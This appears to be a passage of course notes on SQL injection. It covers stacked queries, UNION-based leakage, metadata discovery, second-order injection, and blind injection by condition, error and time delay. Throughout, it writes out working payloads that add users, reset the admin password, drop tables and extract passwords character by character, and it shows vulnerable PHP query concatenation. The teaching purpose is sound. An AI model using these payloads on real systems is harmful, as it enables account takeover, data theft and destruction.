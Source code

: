       - The attacker authenticates as the first user in the users table (less control with respect to the previous payload)
- Stacking queries
  - If stacked queries are enabled in the DB configuration, the attacker can perform a variety of attacks harming the integrity of the database
  - Examples
    - Add new user: `SELECT * FROM users WHERE user=''; INSERT INTO users (user, password, age) VALUES ('attacker','mypwd', 1) -- -' AND password='whatever'`
    - Change admin's password: `SELECT * FROM users WHERE user=''; UPDATE TABLE users SET password='newpwd' WHERE user='admin'-- -' AND password=''`
    - Drop user table: `SELECT * FROM users WHERE user=''; DROP TABLE users -- -' AND password='';`
- Pulling Data From Other Tables
  - Using the `UNION` keyword, the attacker can leak the content of other tables in the system (`' UNION SELECT user, password FROM users -- -`)
  - Query: `$query= "SELECT sender, content FROM messages WHERE receiver='" .$_SESSION["user"] . "' AND content LIKE '%" .$_GET["search"] . "%'";`
  - Crafted quey: `SELECT sender, content FROM messages WHERE receiver='attacker' AND content LIKE '%' UNION SELECT user, password FROM users -- - %'`
    - The two `SELECT` subqueries must return the same number of columns
  - Database metadata
    - We can use the SQL injection to leak the database metadata, which is stored in the `information_schema/sqlite_master` database
    - `information_schema.tables`: names of the tables in the various databases of the system
    - `information_schema.columns`: names, types, etc. of the columns of the various tables
    - SQLITE: `SELECT * FROM sqlite_master WHERE type='table';`
- Second order SQL injection
  - Definition
    - Some applications validate inputs coming from the user, but not data coming from the database
    - In Second-Order SQL injections (also known as Stored SQL injections), the payload is first stored in the database and then used to perform the attack
  - Example
    - Suppose that the attacker registers using the following username: `; UPDATE TABLE users SET password='newpwd' WHERE user='admin' -- -`
    - During the login procedure, the username (read from the database) is stored in `$_SESSION["user"]`, which is then used in this query: `$query= "SELECT sender, content FROM messages WHERE receiver='" .$_SESSION["user"] . "' ANDcontent LIKE '%" .$_GET["search"] . "%'";`
      - Result: `SELECT * FROM messages WHERE receiver = '''; UPDATE TABLE users SET password='newpwd' WHERE user='admin'-- -' ANDcontent LIKE '%%'`
- Blind injection
  - Application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors
  - Suppose the query is: `SELECT id FROM users WHERE id = $_GET["id"]` and that there is no way to show the result of the query; however, the application will react differently depending on the result
  - Attacks
    - Conditional behavior
      - Assuming that we know: (1) table/column names, (2) a valid id, and (3) the admin username: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'k`
      - If “OK” is shown, then we know that the password of the admin starts with a letter greater than `k`, otherwise smaller or equal than `k`
        - We can do a binary search to identify the exact letter, then move to the next character
      - To leak table/column names, we can exploit a similar technique but on the database metadata
    - Conditional error
      - `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
      - The final query generates a division by zero (1/0) when the condition that we want to test is false, otherwise it is valid (‘a’=’a’)
    - Time delay
      - `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--`
      - The final query takes more than 10 seconds when the condition that we want to test is true
- Other tricks
  - Check the number of columns for a table: e.g., test 4 columns
    - `(SELECT 1, 2, 3, 4) = (SELECT * FROM 'Table_Name')` -> Fatal error when the table does not have 4 columns
